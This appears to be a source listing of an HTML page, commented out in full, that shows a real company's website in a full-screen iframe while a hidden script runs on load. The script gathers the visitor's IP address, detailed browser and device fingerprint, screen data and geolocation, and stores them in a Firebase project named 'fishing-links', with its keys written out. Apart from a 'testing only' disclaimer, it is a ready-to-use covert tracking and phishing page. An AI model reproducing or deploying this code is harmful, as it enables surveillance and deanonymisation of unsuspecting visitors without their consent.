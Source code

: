 // This script is created by Harsh Verma, Professional Android Developer
// Note: This script is intended for testing purposes only. Do not use it for any harmful or unethical operations. 
// The creator is not responsible for any misuse or ethical violations that may occur from using this script.

Thank you.

<!-- <!DOCTYPE html>
<html lang="en">
    <!-- Created by Harsh Verma....
    Reach out to scotedflotsin.co.ltd@gmail.com -->

    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Developed by Harsh Verma</title>
        <link rel="icon" href="./assets/fav-iocn-new.jpg">
    </head>

    <body>
        <iframe src="https://www.nitaiitsolution.com" frameborder="0" width="100%" height="1000px" style="scrollbar-width: none;"
            allowfullscreen></iframe>

        <!-- Use "type=module" to enable ES module syntax -->
        <script type="module">
            // Import Firebase services using the modular SDK
            import { initializeApp } from 'https://www.gstatic.com/firebasejs/10.13.1/firebase-app.js';
            import { getFirestore, collection, addDoc } from 'https://www.gstatic.com/firebasejs/10.13.1/firebase-firestore.js';

            // Firebase configuration
            const firebaseConfig = {
                apiKey: "AIzaSyDJOhvoJM94mN7RCC205Ie5Ln1yNPBkr7Y",
                authDomain: "fishing-links-85957.firebaseapp.com",
                projectId: "fishing-links-85957",
                storageBucket: "fishing-links-85957.appspot.com",
                messagingSenderId: "36633798607",
                appId: "1:36633798607:web:8d143e798dee8848f354ba",
                measurementId: "G-4JZCTG0H59"
            };

            // Initialize Firebase App and Firestore
            const app = initializeApp(firebaseConfig);
            const db = getFirestore(app);

            // Function to run on page load
            window.onload = async function collectData() {
                try {
                    // Get public IP
                    const ipResponse = await fetch('https://api.ipify.org?format=json');
                    const ipData = await ipResponse.json();
                    const userIp = ipData.ip;

                    // Get browser and device information
                    const browserDetails = {
                        userAgent: navigator.userAgent,
                        platform: navigator.platform,
                        language: navigator.language,
                        cookiesEnabled: navigator.cookieEnabled,
                        javaEnabled: navigator.javaEnabled(),
                        online: navigator.onLine,
                        vendor: navigator.vendor,
                        appVersion: navigator.appVersion,
                        product: navigator.product,
                        productSub: navigator.productSub,
                        appName: navigator.appName,
                        appCodeName: navigator.appCodeName,
                        hardwareConcurrency: navigator.hardwareConcurrency,
                        deviceMemory: navigator.deviceMemory || 'Not Supported',
                        connectionType: navigator.connection ? navigator.connection.effectiveType : 'Not Supported'
                    };

                    // Get screen information
                    const screenInfo = {
                        screenWidth: window.screen.width,
                        screenHeight: window.screen.height,
                        screenColorDepth: window.screen.colorDepth
                    };

                    // Function to handle location data
                    function handleLocation(position) {
                        const userLocation = {
                            latitude: position.coords.latitude,
                            longitude: position.coords.longitude
                        };

                        // Data to save
                        const data = {
                            ip: userIp,
                            browserDetails: browserDetails,
                            screenInfo: screenInfo,
                            location: userLocation,
                            timestamp: Date.now()
                        };

                        // Save data to Firestore
                        addDoc(collection(db, 'clickerData'), data)
                            .then(docRef => console.log('Document written with ID: ', docRef.id))
                            .catch(error => console.error('Error adding document: ', error));
                    }

                    // Function to handle location error
                    function handleLocationError(error) {
                        console.error('Error getting location:', error);

                        const data = {
                            ip: userIp,
                            browserDetails: browserDetails,
                            screenInfo: screenInfo,
                            location: 'Location permission denied',
                            timestamp: Date.now()
                        };

                        // Save data to Firestore
                        addDoc(collection(db, 'clickerData'), data)
                            .then(docRef => console.log('Document written with ID: ', docRef.id))
                            .catch(error => console.error('Error adding document: ', error));
                    }

                    // Get location
                    if ('geolocation' in navigator) {
                        navigator.geolocation.getCurrentPosition(handleLocation, handleLocationError);
                    } else {
                        console.error('Geolocation is not supported by this browser.');

                        const data = {
                            ip: userIp,
                            browserDetails: browserDetails,
                            screenInfo: screenInfo,
                            location: 'Geolocation not supported',
                            timestamp: Date.now()
                        };

                        // Save data to Firestore
                        addDoc(collection(db, 'clickerData'), data)
                            .then(docRef => console.log('Document written with ID: ', docRef.id))
                            .catch(error => console.error('Error adding document: ', error));
                    }

                } catch (e) {
                    console.error('Error collecting data:', e);
                }
            };
        </script>
    </body>
</html> -->
